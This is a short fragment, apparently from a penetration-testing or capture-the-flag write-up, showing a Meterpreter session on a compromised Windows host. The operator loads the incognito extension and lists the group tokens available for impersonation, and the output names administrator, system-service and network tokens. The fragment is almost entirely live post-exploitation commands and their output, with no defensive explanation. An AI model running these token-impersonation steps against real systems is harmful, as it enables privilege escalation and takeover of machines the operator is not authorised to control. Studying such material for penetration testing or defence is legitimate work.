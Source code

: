 ```bash
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
```